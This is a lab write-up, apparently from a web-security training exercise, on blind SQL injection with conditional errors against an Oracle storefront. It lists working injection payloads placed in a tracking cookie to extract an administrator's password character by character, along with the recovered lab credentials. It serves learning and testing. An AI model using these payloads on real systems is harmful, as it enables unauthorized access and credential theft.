

Blind SQL injection with conditional errors
- Provided with storefront website, told there is a table called users containing columns username and password, told to find password for user administrator and sign in
- Intercepted page refresh on burpsuite and sent to Repeater
- Appended ‘||(SELECT ’')||' to cookie TrackingId and received error
- Tried ‘|| (SELECT ’' dual) ||' and no error
- Discovered database model is Oracle
- Appended ‘|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'
- Resulted in no errors
- Appended ‘|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)||’
- Resulted in error as expected
- Appended ‘|| (SELECT CASE WHEN (LENGTH(password)>1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username = ’administrator')||'
- Recieved error meaning password has length longer than 1
- Sent to Intruder, set positions around 1, set payload from 1-100, grepped error
- Discovered password length is 20 characters:

- Appended ‘|| (SELECT CASE WHEN (SUBSTR(password, 1, 1)='1') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username = ’administrator')||'
- Set positions around 1, pasted list 0-9 and a-z, grepped for Internal Server Error
- Discovered first character of password is 7
- Repeated 19 times
- Discovered credentials “administrator:7vcpyylj044fafappmjy”
- Logged in with credentials to complete lab successfully: